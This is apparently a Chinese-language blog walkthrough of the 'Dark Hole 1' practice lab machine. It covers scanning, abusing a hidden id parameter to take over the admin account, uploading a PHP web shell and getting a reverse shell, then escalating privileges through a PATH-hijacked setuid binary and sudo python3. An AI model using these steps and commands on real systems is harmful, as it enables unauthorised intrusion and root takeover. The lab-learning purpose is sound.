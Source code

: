 ```yaml
---
layout: post
title: Dark Hole 1
subtitle: Dark Hole 1
date: 2025-07-14 16:49
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

主机扫描，发现ip `192.168.163.134`

![image.png](https://img.ghostliner.top/jfD8gH.png)


端口扫描，发现80和22端口

![image.png](https://img.ghostliner.top/rlHix8.png)


扫描目录

```shell
dirb http://192.168.163.134
nikto -h 192.168.163.134
```

发现目录：

```
http://192.168.163.134/config/
http://192.168.163.134/upload/
http://192.168.163.134/login.php
```

对站点进行指纹识别，无发现，bp爆破用户名密码失败

尝试注册成功

登陆成功后地址为: http://192.168.163.134/dashboard.php?id=2

遍历页面id无效，只有一个页面，可以更改用户名、邮件和密码，sqlmap测试密码时发现隐藏字段id参数，bp遍历id尝试更改其他用户密码。

admin登录成功，可以上传文件

上传一句话木马，经测试可以上传 `shell.phtml`

蚁剑连接，反弹shell

![image.png](https://img.ghostliner.top/GvKSmS.png)

![image.png](https://img.ghostliner.top/7dwDHN.png)

![image.png](https://img.ghostliner.top/fyi8kc.png)

toto疑似使用 `id`命令，更改环境变量修改为我们自定义的 `id`命令

```shell
echo '/bin/bash' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
./toto
```

获取到密码

![image.png](https://img.ghostliner.top/Wva3ra.png)

![image.png](https://img.ghostliner.top/MtRwdk.png)

![image.png](https://img.ghostliner.top/D6WblV.png)

```shell
echo 'import os;os.system("/bin/bash")' > file.py
sudo /usr/bin/python3 /home/john/file.py
```

![image.png](https://img.ghostliner.top/Ifoh5M.png)

